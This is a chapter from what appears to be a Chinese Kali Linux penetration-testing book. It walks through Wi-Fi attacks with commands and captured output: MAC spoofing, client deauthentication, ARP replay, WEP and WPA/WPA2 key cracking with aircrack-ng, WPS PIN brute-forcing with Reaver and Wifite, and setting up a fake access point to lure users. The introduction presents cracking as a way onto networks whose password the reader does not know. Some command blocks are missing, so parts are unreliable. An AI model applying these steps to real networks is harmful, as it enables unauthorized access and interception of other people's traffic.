


# 第九章　无线网络渗透测试

当今时代，几乎每个人都离不开网络。尤其是时常在外奔波的人，希望到处都有无线信号，以便随时随地处理手头上的工作。但是在很多情况下，这些无线信号都需要身份验证后才可使用。有时候可能急需要网络，但是又不知道其无线密码，这时用户可能非常着急。刚好在 Kali 中，提供了很多工具可以破解无线网络。本章将介绍使用各种渗透测试工具，实施无线网络攻击。

# 9.1 无线网络嗅探工具 Kismet

## 9.1 无线网络嗅探工具 Kismet

如果要进行无线网络渗透测试，则必须先扫描所有有效的无线接入点。刚好在 Kali Linux 中，提供了一款嗅探无线网络工具 Kismet。使用该工具可以测量周围的无线信号，并查看所有可用的无线接入点。本节将介绍使用 Kismet 工具嗅探无线网络。

（1）启动 Kismet 工具。执行命令如下所示：

```
root@kali:~# kismet 
```

执行以上命令后，将显示如图 9.1 所示的界面。


图 9.1 终端延伸

（2）该界面用来设置是否是用终端默认的颜色。因为 Kismet 默认颜色是灰色，可能一些终端不能显示。这里使用默认的颜色，选择 Yes，将显示如图 9.2 所示的界面。


图 9.2 使用 root 用户运行 Kismet

（3）该界面提示正在使用 root 用户运行 Kismet 工具。此时，选择 OK，将显示如图 9.3 所示的界面。


图 9.3 自动启动 Kismet 服务

（4）该界面提示是否要自动启动 Kismet 服务。这里选择 Yes，将显示如图 9.4 所示的界面。


图 9.4 启动 Kismet 服务

（5）该界面显示设置 Kismet 服务的一些信息。这里使用默认设置，并选择 Start，将显示如图 9.5 所示的界面。


图 9.5 添加包资源

（6）该界面显示没有被定义的包资源，是否要现在添加。这里选择 Yes，将显示如图 9.6 所示的界面。


图 9.6 添加资源窗口

（7）在该界面指定无线网卡接口和描述信息。在 Intf 中，输入无线网卡接口。如果无线网卡已处于监听模式，可以输入 wlan0 或 mon0。其他信息可以不添加。然后单击 Add 按钮，将显示如图 9.7 所示的界面。


图 9.7 关闭控制台窗口

（8）在该界面选择 Close Console Window 按钮，将显示如图 9.8 所示的界面。


图 9.8 扫描的无线信息

（9）该界面显示的信息，就是正在嗅探该无线网络中的信号。当运行一定时间后，停止修改。在该界面单击 Kismet 菜单选项并选择 Quit 命令，如图 9.9 所示的界面。


图 9.9 退出 Kismet

（10）按下 Quit 命令后，将显示如图 9.10 所示的界面。


图 9.10 停止 Kismet 服务

（11）在该界面单击 Kill，将停止 Kismet 服务并退出终端模式。此时，终端将会显示一些日志信息，如下所示：


从以上信息的 KISMET IS SHUTTING DOWN 部分中，将看到关闭了几个日志文件。这些日志文件，默认保存在/root/目录。在这些日志文件中，显示了生成日志的时间。当运行 Kismet 很多次或几天时，这些时间是非常有帮助的。

接下来分析一下上面捕获到的数据。切换到/root/目录，并使用 ls 命令查看以上生成的日志文件。执行命令如下所示：

```
root@kali:~# ls Kismet-20140723-17-19-48-1.*
Kismet-20140723-17-19-48-1.alert  Kismet-20140723-17-19-48-1.netxml
Kismet-20140723-17-19-48-1.gpsxml Kismet-20140723-17-19-48-1.pcapdump
Kismet-20140723-17-19-48-1.nettxt 
```

从输出的信息中，可以看到有五个日志文件，并且使用了不同的后缀名。Kismet 工具生成的所有信息，都保存在这些文件中。下面分别介绍下这几个文件的格式。

*   alert：该文件中包括所有的警告信息。
*   gpsxml：如果使用了 GPS 源，则相关的 GPS 数据保存在该文件中。
*   nettxt：包括所有收集的文本输出信息。
*   netxml：包括所有 XML 格式的数据。
*   pcapdump：包括整个会话捕获的数据包。

下面主要介绍一下 PCAP 和 Text 文件的工具。

1\. 使用 Wireshark 分析 PCAP 信号帧

（1）启动 Wireshark。执行命令如下所示：

```
root@kali:~# wireshark & 
```

（2）打开 pcapdump 文件。在 Wireshark 界面的菜单栏中依次选择 File|Open 命令，将显示如图 9.11 所示的界面。


图 9.11 选择捕获的 pcapdump 文件

（3）在该界面选择 Kismet 工具捕获的 pcapdump 文件，然后单击“打开”按钮，将显示如图 9.12 所示的界面。


图 9.12 pcapdump 文件数据包

（4）从该界面可以看到，Kismet 扫描到的所有无线网络数据包。Beacon 包是无线设备基本的管理包，用来发送信号通知其他的服务。

2\. 分析 Kismet 的 Text 文件

在 Linux 中，可以使用各种文本编辑器打开 nettxt 文件，或者使用 cat 命令查看该文件内容。下面使用 Linux 默认的文本编辑器打开 nettxt 文件，如图 9.13 所示。


图 9.13 nettxt 文件内容

从该界面可以看到 nettxt 文件中有大量的信息，列出了扫描到的每个无线网络。每个无线网络都有一个标签，并且列出了连接到这些无线网络的每个客户端，如图 9.14 所示。


图 9.14 客户端信息

从该界面可以看到一个 Client1，其 MAC 地址为 00:c1:40:76:05:6c。它表示一个 MAC 地址为 00:c1:40:76:05:6c 的客户端连接到了一个无线接入点。

# 9.2 使用 Aircrack-ng 工具破解无线网络

## 9.2 使用 Aircrack-ng 工具破解无线网络

Aircrack-ng 是一款基于破解无线 802.11 协议的 WEP 及 WPA-PSK 加密的工具。该工具主要用了两种攻击方式进行 WEP 破解。一种是 FMS 攻击，该攻击方式是以发现该 WEP 漏洞的研究人员名字（Scott Fluhrer、Itsik Mantin 及 Adi Shamir）所命名；另一种是 Korek 攻击，该攻击方式是通过统计进行攻击的，并且该攻击的效率要远高于 FMS 攻击。本节将介绍使用 Aircrack-ng 破解无线网络。

### 9.2.1 破解 WEP 加密的无线网络

Wired Equivalent Privacy 或 WEP（有线等效加密）协议是对在两台设备间无线传输的数据进行加密的方式，用以防止非法用户窃听或侵入无线网络。不过密码分析学家已经找出 WEP 好几个弱点，因此在 2003 年被 Wi-Fi Protected Access（WPA）淘汰，又在 2004 年由完整的 IEEE 802.11i 标准（又称为 WPA2）所取代。本小节将介绍破解 WEP 加密的无线网络。

使用 Aircrack 破解使用 WEP 加密的无线网络。具体操作步骤如下所示。

（1）使用 airmon-ng 命令查看当前系统中的无线网络接口。执行命令如下所示：


输出的信息表示，当前系统中存在一个无线网络接口。从输出结果的 Interface 列，可以看到当前系统的无线接口为 wlan0。

（2）修改 wlan0 接口的 MAC 地址。因为 MAC 地址标识主机所在的网络，修改主机的 MAC 地址可以隐藏真实的 MAC 地址。在修改 MAC 地址之前，需要停止该接口。执行命令如下所示：


或者：

```
root@kali:~# ifconfig wlan0 down 
```

执行以上命令后，wlan0 接口则停止。此时就可以修改 MAC 地址了，执行命令如下 所示：

```
root@kali:~# macchanger --mac 00:11:22:33:44:55 wlan0
Permanent MAC: 00:c1:40:76:05:6c (unknown)
Current   MAC: 00:c1:40:76:05:6c (unknown)
New       MAC: 00:11:22:33:44:55 (Cimsys Inc) 
```

输出的信息显示了 wlan0 接口永久的 MAC 地址、当前的 MAC 地址及新的 MAC 地址。可以看到 wlan1 接口的 MAC 地址已经被修改。

（3）重新启动 wlan0。执行命令如下所示：


输出的信息显示了无线网卡 wlan0 的芯片及驱动类型。例如，当前系统的无线网卡芯片为 Ralink RT2870/3070；默认驱动为 rt2800usb，并显示监听模式被启用，映射网络接口为 mon0。

有时候使用 airmon-ng start wlan0 命令启用无线网卡时，可能会出现 SIOCSIFFLAGS: Operation not possible due to RF-kill 错误。这是因为 Linux 下有一个软件 RF-kill，该软件为了省电会将不使用的无线设备（如 WIFI 和 Buletooth）自动关闭。当用户使用这些设备时，RF-kill 不会智能的自动打开，需要手动解锁。用户可以执行 rfkill list 命令查看所有设备，如下所示：

```
root@kali:~# rfkill list
0: ideapad_wlan: Wireless LAN
Soft blocked: yes
Hard blocked: no
1: phy0: Wireless LAN
Soft blocked: yes
Hard blocked: no 
```

该列表中前面的编号，表示的是设备的索引号。用户可以通过指定索引号，停止或启用某个设备。如启用所有设备，执行如下所示的命令：

```
root@kali:~# rfkill unblock all 
```

执行以上命令后，没有任何信息输出。以上命令表示，解除所有被关闭的设备。

（4）使用 airodump 命令定位附近所有可用的无线网络。执行命令如下所示：


以上输出的信息显示了附近所有可用的无线网络。当找到用户想要攻击的无线路由器时，按下 Ctrl+C 键停止搜索。

从输出的信息中看到有很多参数。详细介绍如下所示。

*   BSSID：无线的 IP 地址。
*   PWR：网卡报告的信号水平。
*   Beacons：无线发出的通告编号。
*   # Data：被捕获到的数据分组的数量，包括广播分组。

*   # /s：过去 10 秒钟内每秒捕获数据分组的数量。

*   CH：信道号（从 Beacons 中获取）。
*   MB：无线所支持的最大速率。如果 MB=11，它是 802.11b；如果 MB=22，它是 802.11b+；如果更高就是 802.11g。后面的点（高于 54 之后）表明支持短前导码。
*   ENC：使用的加密算法体系。OPN 表示无加密。WEP？表示 WEP 或者 WPA/WPA2 模式，WEP（没有问号）表示静态或动态 WEP。如果出现 TKIP 或 CCMP，那么就是 WPA/WPA2。
*   CIPHER：检测到的加密算法，是 CCMP、WRAAP、TKIP、WEP 和 WEP104 中的一个。典型的来说（不一定），TKIP 与 WPA 结合使用，CCMP 与 WPA2 结合使用。如果密钥索引值大于 0，显示为 WEP40。标准情况下，索引 0-3 是 40bit，104bit 应该是 0。
*   AUTH：使用的认证协议。常用的有 MGT（WPA/WPA2 使用独立的认证服务器，平时我们常说的 802.1x、radius 和 eap 等）、SKA（WEP 的共享密钥）、PSK（WPA/WPA2 的预共享密钥）或者 OPN（WEP 开放式）。
*   ESSID：指所谓的 SSID 号。如果启用隐藏的 SSID 的话，它可以为空。这种情况下，airodump-ng 试图从 proberesponses 和 associationrequests 中获取 SSID。
*   STATION：客户端的 MAC 地址，包括连上的和想要搜索无线来连接的客户端。如果客户端没有连接上，就在 BSSID 下显示“notassociated”。
*   Rate：表示传输率。
*   Lost：在过去 10 秒钟内丢失的数据分组，基于序列号检测。它意味着从客户端来的数据丢包，每个非管理帧中都有一个序列号字段，把刚接收到的那个帧中的序列号和前一个帧中的序列号一减就能知道丢了几个包。
*   Frames：客户端发送的数据分组数量。
*   Probe：被客户端查探的 ESSID。如果客户端正试图连接一个无线，但是没有连接上，那么就显示在这里。

（5）使用 airodump-ng 捕获指定 BSSID 的文件。执行命令如下所示。

airodump-ng 命令常用的选项如下所示。

*   -c：指定选择的频道。
*   -w：指定一个文件名，用于保存捕获的数据。
*   -bssid：指定攻击的 BSSID。

下面将 Bssid 为 14:E6:E4:AC:FB:20 的无线路由器作为攻击目标。执行命令如下所示：


从输出的信息中可以看到 ESSID 为 Test 无线路由器的#Data 一直在变化，表示有客户端正与无线发生数据交换。以上命令执行成功后，会生成一个名为 wirelessattack-01.ivs 的文件，而不是 wirelessattack.ivs。这是因为 airodump-ng 工具为了方便后面破解的时候调用，所有对保存文件按顺序编了号，于是就多了-01 这样的序号，以此类推。在进行第二次攻击时，若使用同样文件名 wirelessattack 保存的话，就会生成名为 wirelessattack-02.ivs 文件。

（6）打开一个新的终端窗口，运行 aireplay 命令。aireplay 命令的语法格式如下所示：

```
aireplay-ng -1 0 -a [BSSID] -h [our Chosen MAC address] -e [ESSID] [Interface]
aireplay-ng -dauth 1 -a [BSSID] -c [our Chosen MAC address] [Interface] 
```

启动 aireplay，执行命令如下所示：

```
root@kali:~# aireplay-ng -1 0 -a 14:E6:E4:AC:FB:20 -h 00:11:22:33:44:55 -e Test mon0
The interface MAC (00:C1:40:76:05:6C) doesn't match the specified MAC (-h).
  ifconfig mon0 hw ether 00:11:22:33:44:55
17:25:17 Waiting for beacon frame (BSSID: 14:E6:E4:AC:FB:20) on channel 1
17:25:17 Sending Authentication Request (Open System) [ACK]
17:25:17 Switching to shared key authentication
17:25:19 Sending Authentication Request (Shared Key) [ACK]
17:25:19 Switching to shared key authentication
17:25:21 Sending Authentication Request (Shared Key) [ACK]
17:25:21 Switching to shared key authentication
17:25:23 Sending Authentication Request (Shared Key) [ACK]
17:25:23 Switching to shared key authentication
17:25:25 Sending Authentication Request (Shared Key) [ACK]
17:25:25 Switching to shared key authentication
17:25:27 Sending Authentication Request (Shared Key) [ACK]
17:25:27 Switching to shared key authentication
17:25:29 Sending Authentication Request (Shared Key) [ACK]
17:25:29 Switching to shared key authentication 
```

（7）使用 aireplay 发送一些流量给无线路由器，以至于能够捕获到数据。语法格式如下所示：

```
aireplay-ng 3 -b [BSSID] -h [Our chosen MAC address] [Interface] 
```

执行命令如下所示：

```
root@kali:~# aireplay-ng -3 -b 14:E6:E4:AC:FB:20 -h 00:11:22:33:44:55 mon0
The interface MAC (00:C1:40:76:05:6C) doesn't match the specified MAC (-h).
  ifconfig mon0 hw ether 00:11:22:33:44:55
17:26:54 Waiting for beacon frame (BSSID: 14:E6:E4:AC:FB:20) on channel 1
Saving ARP requests in replay_arp-0515-172654.cap
You should also start airodump-ng to capture replies.
Notice: got a deauth/disassoc packet. Is the source MAC associated ?
Read 1259 packets (got 1 ARP requests and 189 ACKs), sent 198 packets…(499 pps
Read 1547 packets (got 1 ARP requests and 235 ACKs), sent 248 packets…(499 pps
Read 1843 packets (got 1 ARP requests and 285 ACKs), sent 298 packets…(499 pps
Read 2150 packets (got 1 ARP requests and 333 ACKs), sent 348 packets…(499 pps
Read 2446 packets (got 1 ARP requests and 381 ACKs), sent 398 packets…(499 pps
Read 2753 packets (got 1 ARP requests and 430 ACKs), sent 449 packets…(500 pps
Read 3058 packets (got 1 ARP requests and 476 ACKs), sent 499 packets…(500 pps
Read 3367 packets (got 1 ARP requests and 525 ACKs), sent 548 packets…(499 pps
Read 3687 packets (got 1 ARP requests and 576 ACKs), sent 598 packets…(499 pps
Read 4001 packets (got 1 ARP requests and 626 ACKs), sent 649 packets…(500 pps
Read 4312 packets (got 1 ARP requests and 674 ACKs), sent 699 packets…(500 pps
Read 4622 packets (got 1 ARP requests and 719 ACKs), sent 749 packets…(500 pps
Read 4929 packets (got 1 ARP requests and 768 ACKs), sent 798 packets…(499 pps
Read 5239 packets (got 1 ARP requests and 817 ACKs), sent 848 packets…(499 pps 
```

输出的信息就是使用 ARP Requests 的方式来读取 ARP 请求报文的过程，此时回到 airodump-ng 界面查看，可以看到 Test 的 Frames 栏的数字在飞速的递增。在抓取的无线数据报文达到了一定数量后，一般都是指 IVsX 值达到 2 万以上时，就可以开始破解，若不能成功就等待数据包文继续抓取，然后多尝试几次。

（8）使用 Aircrack 破解密码。执行命令如下所示：


从输出的结果中可以看到 KEY FOUND，表示密码已经找到，为 abcde。

### 9.2.2 破解 WPA/WPA2 无线网络

WPA 全名为 Wi-Fi Protected Access，有 WPA 和 WPA2 两个标准。它是一种保护无线电脑网络安全的协议。对于启用 WPA/WPA2 加密的无线网络，其攻击和破解步骤及攻击是完全一样的。不同的是，在使用 airodump-ng 进行无线探测的界面上，会提示为 WPA CCMP PSK。当使用 aireplay-ng 进行攻击后，同样获取到 WPA 握手数据包及提示；在破解时需要提供一个密码字典。下面将介绍破解 WPA/WPA2 无线网络的方法。

使用 aircrack-ng 破解 WPA/WPA2 无线网络的具体操作步骤如下所示。

（1）查看无线网络接口。执行命令如下所示：


（2）停止无线网络接口。执行命令如下所示：


（3）修改无线网卡 MAC 地址。执行命令如下所示：

```
root@kali:~# macchanger --mac 00:11:22:33:44:55 wlan0
Permanent MAC: 00:c1:40:76:05:6c (unknown)
Current   MAC: 00:c1:40:76:05:6c (unknown)
New       MAC: 00:11:22:33:44:55 (Cimsys Inc) 
```

（4）启用无线网络接口。执行命令如下所示：


（5）捕获数据包。执行命令如下所示：


（6）对无线路由器 Test 进行 Deauth 攻击。执行命令如下所示：

```
root@kali:~# aireplay-ng --deauth 1 -a 14:E6:E4:AC:FB:20 -c 00:11:22:33: 44:55 mon0
17:50:27 Waiting for beacon frame (BSSID: 14:E6:E4:AC:FB:20) on channel 1
17:50:30 Sending 64 directed DeAuth. STMAC: [00:11:22:33:44:55] [12|59 ACKs] 
```

（7）破解密码。执行命令如下所示：


从输出的信息中可以看到无线路由器的密码已经成功破解。在 KEY FOUND 提示的右侧可以看到密码已被破解出，为 daxueba，破解速度约为 500.88 k/s。

### 9.2.3 攻击 WPS（Wi-Fi Proteced Setup）

WPS 是由 Wi-Fi 联盟所推出的全新 Wi-Fi 安全防护设定标准。该标准主要是为了解决无线网络加密认证设定的步骤过于繁杂的弊病。因为通常用户往往会因为设置步骤太麻烦，以至于不做任何加密安全设定，从而引起许多安全上的问题。所以很多人使用 WPS 设置无线设备，可以通过个人识别码（PIN）或按钮（PBC）取代输入一个很长的密码短语。当开启该功能后，攻击者就可以使用暴力攻击的方法来攻击 WPS。本小节将介绍使用各种工具攻击 WPS。

现在大部分路由器上都支持 WPS 功能。以前路由器有专门的 WPS 设置，现在的路由器使用 QSS 功能取代了。这里以 TP-LINK 型号为例，介绍设置 WPS 功能，如图 9.15 所示。如果使用 WPS 的 PBC 方式，只需要按下路由器上的 QSS/RESET 按钮就可以了。


图 9.15 设置 WPS

从该界面可以看到 QSS 功能已开启，可以看到当前的 PIN 码是 04588306。这里可以重新生成新的 PIN 码，或者恢复初始 PIN 码。

【实例 9-1】使用 Reaver 破解 WPS。具体操作步骤如下所示。

（1）插入无线网卡，使用 ifconfig 命令查看无线网卡是否已经正确插入。执行命令如下所示：

```
root@Kali:~# ifconfig
eth0  Link encap:Ethernet HWaddr 00:19:21:3f:c3:e5
      inet addr:192.168.5.4 Bcast:192.168.5.255 Mask:255.255.255.0
      inet6 addr: fe80::219:21ff:fe3f:c3e5/64 Scope:Link
      UP BROADCAST RUNNING MULTICAST MTU:1500 Metric:1
      RX packets:10541 errors:0 dropped:0 overruns:0 frame:0
      TX packets:7160 errors:0 dropped:0 overruns:0 carrier:0
      collisions:0 txqueuelen:1000
      RX bytes:4205470 (4.0 MiB) TX bytes:600691 (586.6 KiB)
lo    Link encap:Local Loopback
      inet addr:127.0.0.1 Mask:255.0.0.0
      inet6 addr: ::1/128 Scope:Host
      UP LOOPBACK RUNNING MTU:65536 Metric:1
      RX packets:296 errors:0 dropped:0 overruns:0 frame:0
      TX packets:296 errors:0 dropped:0 overruns:0 carrier:0
      collisions:0 txqueuelen:0
      RX bytes:17760 (17.3 KiB) TX bytes:17760 (17.3 KiB) 
```

从输出的信息中可以看到，只有一个以太网接口 eth0。这是因为无线网卡可能没有启动，首先来启动该无线网卡。执行命令如下所示：

```
root@Kali:~# ifconfig wlan0 up 
```

执行以上命令后，没有任何信息输出。此时再次执行 ifconfig 命令，查看无线网络是否已启动，如下所示：

```
root@Kali:~# ifconfig
......
wlan0  Link encap:Ethernet HWaddr 08:10:76:49:c3:cd
       UP BROADCAST MULTICAST MTU:1500 Metric:1
       RX packets:0 errors:0 dropped:0 overruns:0 frame:0
       TX packets:0 errors:0 dropped:0 overruns:0 carrier:0
       collisions:0 txqueuelen:1000
       RX bytes:0 (0.0 B) TX bytes:0 (0.0 B) 
```

看到以上输出信息，则表示无线网卡已成功启动，其网络接口为 wlan0。

（2）启动无线网卡为监听模式。执行命令如下所示：


从输出的信息中，可以看到 monitor mode enabled on mon0，表示无线网卡已启动监听模式。在以上信息中，还可以看到无线网卡的芯片级驱动类型。其中，该网卡的芯片为 Ralink，默认驱动为 rt2800usb。

注意：执行以上命令启动监听模式，一定要确定正确识别无线网卡的芯片和驱动。否则，该无线网卡可能导致攻击失败。

（3）攻击 WPS。执行命令如下所示：

```
root@kali:~# reaver -i mon0 -b 14:E6:E4:AC:FB:20 -vv
Reaver v1.4 WiFi Protected Setup Attack Tool
Copyright (c) 2011, Tactical Network Solutions, Craig Heffner <cheffner@ tacnetsol.com>
[+] Waiting for beacon from 14:E6:E4:AC:FB:20
[+] Switching mon0 to channel 1
[+] Switching mon0 to channel 2
[+] Switching mon0 to channel 3
[+] Switching mon0 to channel 11
[+] Switching mon0 to channel 4
[+] Switching mon0 to channel 5
[+] Switching mon0 to channel 6
[+] Switching mon0 to channel 7
[+] Associated with 8C:21:0A:44:09:F8 (ESSID: yztxty)
[+] Trying pin 12345670
[+] Sending EAPOL START request
[+] Received identity request
[+] Sending identity response
[+] Received identity request
[+] Sending identity response
[+] Received M1 message
[+] Sending M2 message
[+] Received M3 message
[+] Sending M4 message
[+] Received WSC NACK
[+] Sending WSC NACK
...... 
```

从以上输出信息中，可以看到正在等待连接到 14:E6:E4:AC:FB:20 无线路由器的信号。并且通过发送 PIN 信息，获取密码。

如果没有路由器没有开启 WPS 的话，将会出现如下所示的信息：

```
[!] WARNING: Failed to associate with 14:E6:E4:AC:FB:20 (ESSID: XXXX) 
```

Fern WiFi Cracker 是一个非常不错的工具，用来测试无线网络安全。后面将会介绍使用该工具，攻击 Wi-Fi 网络。这里首先介绍使用 Fern WiFi Cracker 工具来攻击 WPS。

【实例 9-2】使用 Wifite 攻击 WPS。具体操作步骤如下所示。

（1）启动 Wifite 工具，并指定使用 common.txt 密码字典。在命令行终端执行如下所示的命令：

```
root@kali:~# wifite -dict common.txt 
```

执行以上命令后，将显示如下所示的信息：


以上信息显示了 WiFite 工具的版本信息，支持平台，并且开始扫描无线网络。当扫描到想要破解的无线网络时，按下 CTRL+C 组合键停止扫描。

（2）停止扫描无线网络，将显示如下所示的信息：


从以上输出信息中，可以看到扫描到五个无线接入点和三个客户端。在输出信息中，共显示了 7 列。分别表示无线接入点编号、ESSID 号、信道、加密方式、电功率、是否开启 wps 和客户端。如果仅有一个客户端连接到无线接入点，则 CLIENT 列显示是 client。如果有多个客户端连接的话，则显示是 clients。

（3）此时，选择要攻击的无线接入点。这里选择第五个无线接入点，输入“1”。然后按下回车键将开始攻击，显示信息如下所示：

```
[+] select target numbers (1-5) separated by commas, or 'all': 1
[+] 1 target selected.
[0:00:00] initializing WPS PIN attack on yzty (EC:17:2F:46:70:BA)
 [0:11:00] WPS attack, 0/0 success/ttl,
 [!] unable to complete successful try in 660 seconds
 [+] skipping yzty
 [0:08:20] starting wpa handshake capture on "yzty"
 [0:08:11] new client found: 18:DC:56:F0:62:AF
 [0:08:09] listening for handshake…
 [0:00:11] handshake captured! saved as "hs/yzty_EC-17-2F-46-70-BA.cap"
 [+] 2 attacks completed:
 [+] 1/2 WPA attacks succeeded
         yzty (EC:17:2F:46:70:BA) handshake captured
         saved as hs/yzty_EC-17-2F-46-70-BA.cap
 [+] starting WPA cracker on 1 handshake
 [0:00:00] cracking yzty with aircrack-ng
 [+] cracked yzty (EC:17:2F:46:70:BA)!
 [+] key:  "huolong5"
[+] quitting 
```

从输出的信息中，可以看到破解出 yzty 无线设备的密码为 huolong5。

# 9.3 Gerix Wifi Cracker 破解无线网络

## 9.3 Gerix Wifi Cracker 破解无线网络

Gerix Wifi Cracker 是另一个 aircrack 图形用户界面的无线网络破解工具。本节将介绍使用该工具破解无线网络及创建假的接入点。

### 9.3.1 Gerix 破解 WEP 加密的无线网络

在前面介绍了手动使用 Aircrack-ng 破解 WEP 和 WPA/WPA2 加密的无线网络。为了方便，本小节将介绍使用 Gerix 工具自动地攻击无线网络。使用 Gerix 攻击 WEP 加密的无线网络。具体操作步骤如下所示。

（1）下载 Gerix 软件包。执行命令如下所示：

```
root@kali:~# wget https://bitbucket.org/SKin36/gerix-wifi-cracker-pyqt4/ downloads/gerix-wifi- cracker-master.rar
--2014-05-13 09:50:38-- https://bitbucket.org/SKin36/gerix-wifi- cracker- pyqt4/downloads/gerix- wifi-cracker-master.rar
正在解析主机 bitbucket.org (bitbucket.org)… 131.103.20.167, 131.103.20.168
正在连接 bitbucket.org (bitbucket.org)|131.103.20.167|:443… 已连接。
已发出 HTTP 请求，正在等待回应… 302 FOUND
位置：http://cdn.bitbucket.org/Skin36/gerix-wifi-cracker-pyqt4/downloads/ gerix-wifi-cracker-master. rar [跟随至新的 URL]
--2014-05-13 09:50:40-- http://cdn.bitbucket.org/Skin36/gerix-wifi- cracker-pyqt4/downloads/ gerix-wifi-cracker-master.rar
正在解析主机 cdn.bitbucket.org (cdn.bitbucket.org)… 54.230.65.88, 216.137\. 55.19, 54.230\. 67.250, …
正在连接 cdn.bitbucket.org (cdn.bitbucket.org)|54.230.65.88|:80… 已连接。
已发出 HTTP 请求，正在等待回应… 200 OK
长度：87525 (85K) [binary/octet-stream]
正在保存至:“gerix-wifi-cracker-master.rar”
100%[======================================>] 87,525   177K/s 用时 0.5s
2014-05-13 09:50:41 (177 KB/s) - 已保存“gerix-wifi-cracker-master.rar” [87525/87525]) 
```

从输出的结果可以看到 gerix-wifi-cracker-master.rar 文件已下载完成，并保存在当前目录下。

（2）解压 Gerix 软件包。执行命令如下所示：


以上输出内容显示了解压 Gerix 软件包的过程。从该过程中可以看到，解压出的所有文件及保存位置。

（3）为了方便管理，将解压出的 gerix-wifi-cracker-masger 目录移动 Linux 系统统一的目录/usr/share 中。执行命令如下所示：

```
root@kali:~# mv gerix-wifi-cracker-master /usr/share/gerix-wifi-cracker 
```

执行以上命令后不会有任何输出信息。

（4）切换到 Gerix 所在的位置，并启动 Gerix 工具。执行命令如下所示：

```
root@kali:~# cd /usr/share/gerix-wifi-cracker/
root@kali:/usr/share/gerix-wifi-cracker# python gerix.py 
```

执行以上命令后，将显示如图 9.16 所示的界面。


图 9.16 Gerix 启动界面

（5）从该界面可以看到 Gerix 数据库已加载成功。此时，用鼠标切换到 Configuration 选项卡上，将显示如图 9.17 所示的界面。


图 9.17 基本设置界面

（6）从该界面可以看到只有一个无线接口。所以，现在要进行一个配置。在该界面选择接口 wlan1，单击 Enable/Disable Monitor Mode 按钮，将显示如图 9.18 所示的界面。


图 9.18 启动 wlan1 为监听模式

（7）从该界面可以看到 wlan1 成功启动为监听模式。此时使用鼠标选择 mon0，在 Select the target network 下单击 Rescan networks 按钮，显示的界面如图 9.19 所示。


图 9.19 扫描到的网络

（8）从该界面可以看到扫描到附近的所有无线网络。本例中选择攻击 WEP 加密的无线网络，这里选择 Essid 为 Test 的无线网络。然后将鼠标切换到 WEP 选项卡，如图 9.20 所示。


图 9.20 WEP 配置

（9）该界面用来配置 WEP 相关信息。单击 General functionalities 命令，将显示如图 9.21 所示的界面。


图 9.21 General functionalities 界面

（10）该界面显示了 WEP 的攻击方法。在该界面的 Functionalities 下，单击 Start Sniffing and Logging 按钮，将显示如图 9.22 所示的界面。


图 9.22 捕获无线 AP

（11）该界面显示了与 Test 传输数据的无线 AP。然后在图 9.21 中单击 WEP Attacks（no-client）命令，将显示如图 9.23 所示的界面。



图 9.23 ChopChop attack

（12）在该界面单击 Start false access point Authentication on victim 按钮，没有任何输出信息。然后单击 Start the ChopChop attack 按钮，将显示如图 9.24 所示的界面。


图 9.24 捕获的数据包

（13）该界面是抓取数据包的过程。当捕获到无线 AP 时，将显示 Use this packet?。此时输入 y 将开始捕获数据，生成一个名为.cap 文件，如图 9.25 所示。


图 9.25 生成.cap 文件

（14）从该界面可以看到将捕获到的数据包保存到 replay_dec-0514-162307.cap 文件中，该文件用于攻击的时候使用。在图 9.25 中，可能会出现如图 9.26 所示的错误。


图 9.26 ChopChop attack 失败

当出现以上错误时，建议换一块无线网卡。然后在图 9.23 中依次单击 Create the ARP packet to be injected on the victim access point 和 Inject the created packet on victim access point 按钮，将打开如图 9.27 所示的界面。


图 9.27 是否使用该数据包

（15）在该界面询问是否 Use this packet?。在 Use this packet？后输入 y，将大量的抓取数据包。当捕获的数据包达到 2 万时，单击 Cracking 选项卡，将显示如图 9.28 所示的界面。


图 9.28 攻击界面

（16）在该界面单击 WEP cracking，将显示如图 9.29 所示的界面。


图 9.29 破解 WEP 密码

（17）在该界面单击 Aircrack-ng-Decrypt WEP password 按钮，将显示如图 9.30 所示的界面。


图 9.30 破解结果

（18）从该界面可以看到破解 WEP 加密密码共用时间为 3 分 28 秒。当抓取的数据包为 20105 时，找到了密码，其密码为 abcde。

### 9.3.2 使用 Gerix 创建假的接入点

使用 Gerix 工具可以创建和建立一个假的接入点（AP）。设置一个假的访问点，可以诱骗用户访问这个访问点。在这个时代，人们往往会为了方便而这样做。连接开放的无线接入点，可以快速及方便地发送电子邮件或登录社交网络。下面将介绍以 WEP 加密的无线网络为例，创建假接入点。

使用 Gerix 工具创建假接入点。具体操作步骤如下所示。

（1）启动 Gerix 工具。执行命令如下所示：

```
root@kali:/usr/share/gerix-wifi-cracker# python gerix.py 
```

（2）切换到 Configuration 选项卡。在该界面选择无线接口，单击 Enable/Disable Monitor Mode 按钮。当监听模式成功被启动后，单击 Select Target Network 下的 Rescan Networks 按钮。

（3）在扫描到的所有网络中，选择 WEP 加密的网络。然后单击 Fake AP 选项卡，将显示如图 9.31 所示的界面。


图 9.31 Fake AP 界面

